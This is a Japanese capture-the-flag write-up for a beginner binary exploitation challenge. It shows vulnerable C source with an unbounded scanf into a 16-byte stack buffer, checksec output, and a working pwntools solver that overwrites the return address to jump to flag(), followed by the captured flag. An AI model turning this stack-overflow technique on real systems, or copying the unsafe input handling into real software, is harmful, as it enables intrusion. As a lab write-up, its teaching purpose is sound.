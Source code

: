 ## Pwn Me Baby (153pt / 178 solves) [Beginner]
> Baby, please pwn me.
> 
> nc [問題鯖の接続情報]
>
> 添付ファイル: baby-pwn.zip

~~どしたのワサワサ なんでもナーミン~~

攻撃対象のバイナリとそのソースコードが与えられている。そのソースコードを以下に示す。
```c
#include <fcntl.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
void flag(){
  char buf[128]={0};
  int fd=open("flag.txt",O_RDONLY);
  if(fd==-1){
    puts("Couldn't find flag.txt");
    return;
  }
  read(fd,buf,128);
  puts(buf);
}
int main(void){
  char buf[16];
  printf("I will receive a message and do nothing else:");
  scanf("%s",buf);
  return 0;
}

__attribute__((constructor)) void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
}
```

典型的なBOFの問題だと分かる。  
checksecの結果は以下の通り。
```
[*] '/dist/main'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

PIEなし。ありがたい。よってこの問題の目標は`flag()`のアドレスを特定し、`main()`のリターンアドレスをBOFで書き換えることとなる。gdbなどのデバッガを使うと、`flag()`の開始アドレスは`0x401810`であるということと、`main()`の配列`buf`の開始アドレスからリターンアドレスが格納されている場所のアドレスまでのオフセットは`24`であるということが分かる。得られた情報から次に示すソルバを書いた。
```python
from pwn import *

io = remote(host, port)

flag_address = 0x401815

payload = b'A' * 24
payload += pack(flag_address)

io.sendlineafter('I will receive a message and do nothing else:', payload)
io.interactive()
```

変数`flag_address`が`0x401810`でないのは、そのままではスタックのアラインメントに引っ掛かるのか、上手くいかなかったからである。色々なアドレスを試した結果、`0x401815`に落ち着いた。
兎にも角にも、このソルバを実行するとフラグが得られた。
```
$ python3 poc.py 
[+] Opening connection to [host] on port [port]: Done
/usr/local/lib/python3.10/dist-packages/pwnlib/tubes/tube.py:876: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode
fwectf{bof_b0f_6of_60f}
I will receive a message and do nothing else:[*] Got EOF while reading in interactive
$
```

### `fwectf{bof_b0f_6of_60f}`